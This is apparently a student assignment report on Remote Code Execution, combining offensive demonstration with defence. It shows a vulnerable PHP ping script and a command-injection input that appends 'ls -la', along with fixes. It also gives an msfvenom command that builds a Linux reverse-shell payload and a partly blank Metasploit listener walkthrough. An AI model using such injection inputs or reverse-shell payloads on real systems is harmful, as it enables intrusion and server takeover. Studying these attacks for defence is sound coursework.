






# Assignment 1

**Module:** Advanced Web Attacks & Exploitations

**Module Code:** SWS304 

**Student Name: Sonam Dorji Ghalley** 

**Student ID: 022320299**

## INTRODUCTION

This assignment focuses on the concept of Remote Code Execution (RCE), which represents one of the most critical security flaws that modern web applications face. The objective is to demonstrate RCE vulnerabilities which attackers exploit using reverse shells and payloads through demonstration of RCE vulnerability exploitation methods and demonstration of mitigation techniques that developers and system administrators need to implement for system protection. The report presents both theoretical knowledge and practical methods of exploitation through the use of industry-standard tools which include the Metasploit Framework.

## Q1: UNDERSTANDING AND IDENTIFYING RCE VULNERABILITIES

### Part A – What is RCE (Remote Code Execution)?

#### **(i) Definition of Remote Code Execution (RCE)**

Remote Code Execution (RCE) is a security vulnerability that enables attackers to execute their own commands through a security flaw present in remote systems which they access through vulnerable applications. The attacker gains the ability to launch harmful commands from outside the system as they do not require physical access or official machine access. RCE stands as the most critical security weakness because it enables attackers to gain total control of systems while stealing data and installing malicious software and increasing their access rights and completely taking over  the remote server.

#### (ii) Three Common Vulnerabilities Leading to RCE

1.  **Command Injection**: The system becomes vulnerable to command injection attacks when users enter data which gets transmitted to system commands without any security filters. 
2. **File Upload Vulnerabilities:** The web application becomes vulnerable to attacks when it permits users to upload any files because attackers can use this feature to upload PHP web shell scripts which they can run on the server.
3. **Deserialization Vulnerabilities:**  The application becomes vulnerable to attackers who want to execute malicious code by using unserialization of data because developers handle serialized objects incorrectly.

### Part B – Spotting RCE in a Simple Web Application

Given code: 

```php
<?php
$host = $_GET['host'];
$output = shell_exec('ping -c 3 ' . $host);
echo '<pre>' . $output . '</pre>';
?>
```

#### (i) Identify the Security Flaw

The PHP code contains a security flaw which permits attackers to perform command injection attacks. The value from `$_GET['host']` is directly concatenated into the shell_exec() command without validation or sanitization. This allows an attacker to append additional shell commands. The security risk arises from the fact that attackers can run any operating system command they choose on the server.

#### (ii) Explain the Attacker Input

```bash
Payload entered: 192.168.1.1; ls -la

Full command executed by the server:
ping -c 3 192.168.1.1; ls -la
```

The  command above first performs a ping operation and then executes:

```bash
ls -la
```

The `ls -la` command displays all file and directory information with complete details while showing all hidden files.

Basically the attacker is trying to discover all server files, which might expose secret information including configuration files and passwords and web directories.

#### (iii) Two Specific Fixes to Prevent RCE

**Fix 1: Validate Input Using IP Address Filter**

```php
<?php
$host = $_GET['host'];

if (filter_var($host, FILTER_VALIDATE_IP)) {
    $output = shell_exec('ping -c 3 ' . escapeshellarg($host));
    echo '<pre>' . $output . '</pre>';
} else {
    echo "Invalid IP address";
}
?>
```

This ensures only valid IP addresses are accepted.

**Fix 2: Using `escapeshellarg()`**

```php
$output = shell_exec('ping -c 3 ' . escapeshellarg($host));
```

This function makes sure that no  special shell characters such as `;`, `&&`, `|`,  and escapes them, preventing command injection.

## Q2: PAYLOAD CREATION, EXPLOITATION AND MITIGATION

### Part A – Creating and Using Payloads

#### (i) What is a Payload?

The term payload in RCE exploitation describes the malicious code or command that attackers deliver to a target system after they successfully exploit a vulnerability. The payload functions to execute three specific malicious activities which include establishing a reverse shell connection, downloading malware and creating remote access to the system.

#### (ii) Msfvenom Reverse Shell Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.2167.132 LPORT=4444 -f elf > reverse_shell.elf
```

**Explanation of Flags**

| Flag | Meaning |
| --- | --- |
| `-p` | Specifies the payload type |
| `linux/x64/shell_reverse_tcp` | Linux reverse TCP shell payload |
| `LHOST` | Attacker machine IP |
| `LPORT` | Port to receive connection |
| `-f elf` | Output format for Linux executable |
| `>` | Redirect output to file |



#### **(iii) Step-by-Step Metasploit Listener Setup**

Open Metasploit:

```bash
msfconsole
```


Use multi-handler:



Set the payload:



Start listener:



Run payload on target that was created earlier:

make it executable and execute it 



After executing the reverse shell in the metasploid listener we get the reverse shell



### Part B – Mitigation Strategies

#### (i) Four Mitigation Strategies

1.  **Input Sanitization and Validation**: You need to verify all user input by matching it to specific patterns which include IP addresses and filenames and numeric values. 
2. **Principle of Least Privilege:** Web applications should operate with the least system rights because this security measure limits damage from potential breaches.
3. **Disable Dangerous Functions:**
disable the function in the PHP configuration file such as:
    
    ```php
    shell_exec()
    exec()
    system()
    passthru()
    ```
    
4. **Web Application Firewall (WAF):** A WAF system should be implemented to identify and stop harmful payloads and suspicious requests from accessing the server.

#### (ii) Short Security Report for Client

The web application suffered from a critical Remote Code Execution vulnerability because it handled user-generated input for system commands in an unsafe manner. Attackers can use this vulnerability to execute any command they want on the server which results in unauthorized access to data and complete system takeover. The problem requires urgent fixes through input validation enforcement and unsafe command execution function removal and the establishment of server-side security measures that include Web Application Firewall implementation.

## Conclusion

The report studied Remote Code Execution vulnerabilities through two different methods of research which included offensive and defensive approaches. The assignment demonstrated how insecure coding practices such as command injection can result in severe exploitation risks. The session included practical payload generation through Msfvenom and reverse shell handling with Metasploit. The report presented several mitigation strategies which organizations could use to decrease RCE attack risks within their operational environments.

## Reference

Offensive Security. (2025). *Metasploit Framework Documentation*. [https://docs.metasploit.com](https://docs.metasploit.com/)

OWASP Foundation. (2025). *Command Injection*. [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)